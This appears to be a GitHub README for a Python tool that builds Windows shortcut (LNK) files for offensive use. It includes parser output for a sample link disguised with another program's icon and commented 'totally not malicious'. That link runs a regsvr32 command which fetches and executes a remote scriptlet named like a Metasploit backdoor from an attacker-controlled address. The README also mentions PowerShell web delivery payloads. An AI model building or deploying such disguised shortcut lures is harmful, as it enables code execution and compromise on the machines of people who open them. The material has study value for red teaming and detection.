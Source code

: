 # python_lnk_maker
Make Windows LNK file with python (pylnk)

Uses pylnk  to create a Windows LNK file.

* pip install pylnk

* tested using regsvr32 trick and powershell web delivery payload

* set link.icon to the executable you want to use for the LNK icon. 

Run this on a Windows system with python 2.7 and pylnk installed

![alt text](https://raw.githubusercontent.com/carnal0wnage/python_lnk_maker/master/img_for_readme/python1.png "Logo Title Text 1")

![alt text](https://raw.githubusercontent.com/carnal0wnage/python_lnk_maker/master/img_for_readme/python2.png "Logo Title Text 1")


Output of lnk_parser_cmd.exe
```
C:\Users\user\Desktop>lnk_parser_cmd.exe blah4.lnk
[Filename]:                             blah4.lnk

[Header]
Date created:                           06/04/2016 (00:36:12.0) [UTC]
Last accessed:                          06/04/2016 (00:36:12.0) [UTC]
Last modified:                          06/04/2016 (00:36:12.0) [UTC]
File size:                              0 bytes
File attributes:                        0x00000000      (None)
Icon index:                             0
ShowWindow value:                       1               (SW_SHOWNORMAL / SW_NORMAL)
Hot key value:                          0x0000          (None)
Link flags:                             0x0000016d      (HasLinkTargetIDList, HasName, HasRelativePath, HasArguments, HasIconLocation, ForceNoLinkInfo)

[Link Target ID List]
CLSID:                                  20d04fe0-3aea-1069-a2d8-08002b30309d = My Computer

Drive:                                  C:\

Last modified:                          03/16/2016 (09:56:04.0) [UTC]
Folder attributes:                      0x00000010      (FILE_ATTRIBUTE_DIRECTORY)
Short directory name:                   windows
Last accessed:                          03/16/2016 (09:56:04.0) [UTC]
Long directory name:                    windows

Last modified:                          06/03/2016 (17:35:24.0) [UTC]
Folder attributes:                      0x00000010      (FILE_ATTRIBUTE_DIRECTORY)
Short directory name:                   System32
Last accessed:                          06/03/2016 (17:35:24.0) [UTC]
Long directory name:                    System32

File size:                              233984 bytes
Last modified:                          10/30/2015 (00:17:34.0) [UTC]
File attributes:                        0x00000010      (FILE_ATTRIBUTE_DIRECTORY)
8.3 filename:                           cmd.exe
Date created:                           10/30/2015 (00:17:34.0) [UTC]
Last accessed:                          10/30/2015 (00:17:34.0) [UTC]
Long filename:                          cmd.exe

[String Data]
Comment (ASCII):                        totally not malicious :-)
Relative path (ASCII):                  C:\Windows\System32\cmd.exe
Arguments (ASCII):                      /c regsvr32 /s /n /u /i:http://10.0.0.14:8000/msfback2.sct scrobj.dll
Icon location (ASCII):                  C:\Windows\System32\cliconfg.exe
```



